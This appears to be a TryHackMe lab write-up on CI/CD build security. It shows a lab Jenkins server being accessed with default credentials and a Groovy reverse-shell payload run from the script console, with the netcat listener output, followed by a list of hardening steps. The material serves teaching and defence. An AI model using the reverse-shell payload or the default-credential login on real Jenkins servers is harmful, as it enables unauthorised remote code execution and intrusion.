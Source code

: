 To secure our build server, we want to restrict access to it. You would often find that multiple members have access to the same build server. In these cases, we need to apply granular access to ensure that a compromise of one user would not lead to the compromise of all builds.

### Exposed Build Server -

Jenkins build server is at - http://jenkins.tryhackme.loc:8080/

![image](https://github.com/sh3bu/CTF-writeups/assets/67383098/1d5a8813-f5b3-47c9-b07c-ccdc62ae7b5d)

We can login with default credentials - `jenkins:jenkins`

![image](https://github.com/sh3bu/CTF-writeups/assets/67383098/c3ea6b6e-c0d3-4a6c-a383-a2104747be6d)

We can use the Jenkins script console (http://jenkins.tryhackme.loc:8080/script) to get a reverse shell on the Jenkins server.

**Reverse shell payload:**
```groovy
String host="10.xx.xx.xx";int port=9001;String cmd="sh";Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```
![image](https://github.com/sh3bu/CTF-writeups/assets/67383098/5666b13c-8220-499f-95c9-d4d598def8eb)

Once we click **Run**, we get a reverse shell back to our machine.

```bash
┌──(root㉿kali)-[/home/kali/thm/CI_CD and Build Security]
└─# nc -lvnp 9001
listening on [any] 9001 ...
connect to [10.50.75.24] from (UNKNOWN) [10.200.94.160] 37584

jenkins@ip-10-200-94-160:/flag$ id
id
uid=115(jenkins) gid=123(jenkins) groups=123(jenkins)
```

### Protecting the Build Server -

The following steps can be followed to protect both your build server and build agents:

- **Build Agent Configuration:** Configure build agents to only communicate with the build server, avoiding external exposure.
- **Private Network:** Place build agents within a private network, preventing direct internet access.
- **Firewalls:** Employ firewalls to restrict incoming connections to necessary Build server-related traffic.
- **VPN:** Use a VPN to access the build server and its agents securely from remote locations.
- **Token-Based Authentication:** Utilise build agent tokens for authentication, adding an extra layer of security.
- **SSH Keys:** For SSH-based build agents, use secure SSH keys for authentication.
- **Continuous Monitoring:** Regularly monitor build agent activities and logs for unusual behaviour.
- **Regular Updates:** Update both the build server and agents with security patches.
- **Security Audits:** Conduct periodic security audits to identify and address vulnerabilities.
- **Remove Defaults and Harden Configuration:** Make sure to harden your build server and remove all default credentials and weak configurations.


[kali]: runner-kali